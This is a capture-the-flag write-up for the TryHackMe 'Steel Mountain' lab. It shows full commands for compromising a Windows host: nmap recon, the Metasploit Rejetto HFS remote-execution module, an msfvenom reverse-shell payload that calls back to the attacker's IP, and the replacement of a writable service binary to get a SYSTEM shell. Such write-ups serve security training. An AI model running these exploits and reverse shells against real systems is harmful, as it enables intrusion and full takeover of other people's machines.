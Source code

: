 # Steel Mountain

## Recon Stage

I begin with a simple nmap to check what ports are open

```
┌──(kali㉿kali)-[~/TryHackMe/Steel_Mountain]
└─$ nmap -sV -Pn 10.10.70.202                                                                  1 ⚙
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 08:48 EST
Nmap scan report for 10.10.70.202
Host is up (0.025s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http               HttpFileServer httpd 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.59 seconds
```

As you can see, there are a few different servers running here, including a webserver, SMB server and a httpfile server.

As there was a webserver running on port 80, I quickly checked the website and was presented with this:

![](2021-03-09-08-58-57.png)

I checked the source, and it seems the filename for the image includes the employee's name:

``<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>``


Well we could try and gobuster for some directories, especially as this website doesn't look finished, but, for now, I am intrigued by this second webserver running on 8080:

![](2021-03-09-09-04-59.png)

So it's some form of fileserver, let's see whether this could be our attack vector. 

## Exploit Stage

I start searchsploit to see whether there are any available exploits for this version:

```
┌──(kali㉿kali)-[~/TryHackMe/Steel_Mountain]
└─$ searchsploit httpfileserver 2.3                                                      130 ⨯ 1 ⚙
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)      | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


Great, there's a remote command execution for the version running. I fire up metasploit and find and use the module ``xploit/windows/http/rejetto_hfs_exec``

I change the options as required:

```
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.70.202
RHOSTS => 10.10.70.202
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.9.3.207
LHOST => 10.9.3.207
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.9.3.207
SRVHOST => 10.9.3.207
```

*I am setting local host options as metasploit defaults to my non-VPN ip address, which is unreachable for the victim machine*


![](2021-03-09-09-38-23.png)

I am then presented with a meterpreter shell. I then navigate over to the desktop in order to find the first user flag:

```
meterpreter > cd Desktop
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt
```

## Privilege Escalation Stage

Luckily, TryHackMe gave us a little hint as to where we should be looking for privilege escalation. I started by finding all services running on the machine and printing their name, startname, startmode and pathname as I was searching for an unquoted service executable escalation.

``wmic service get name,startname,pathname,startmode``

In the output I found this service called AdvancedSystemCareService9 which starts as LocalSystem and has an unquoted path:

``AdvancedSystemCareService9  C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe                    Auto       LocalSystem``


However, when I checked the run directory, I found that the directory is actually writable for our current user:

![](2021-03-09-10-14-39.png)


So instead of performing a priviledge escalation using the unquoted path, I abused the weak permissions instead.

First I created a payload binary using msfvenom to be uploaded onto the target and to replace the ASCService.exe:

``msfvenom -p windows/shell_reverse_tcp LHOST=10.9.3.207 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe``

Then, on the target, I stopped the process:

``sc stop AdvancedSystemCareService9``

Then returned to meterpreter and uploaded our payload binary:

```
meterpreter > upload ~/TryHackMe/Steel_Mountain/ASCService.exe
[*] uploading  : /home/kali/TryHackMe/Steel_Mountain/ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/TryHackMe/Steel_Mountain/ASCService.exe -> ASCService.exe
[*] uploaded   : /home/kali/TryHackMe/Steel_Mountain/ASCService.exe -> ASCService.exe
```

On my local machine I start up netcat listening on the port 4443 that we specified:

``nc -l -p 4443``

And on the target machine, I started the service again:

``sc start AdvancedSystemCareService9``

And wholla, we have our system shell:

![](2021-03-09-10-26-22.png)

From here, we can move into the Administrator user's Desktop and view the root token with ``more root.txt``



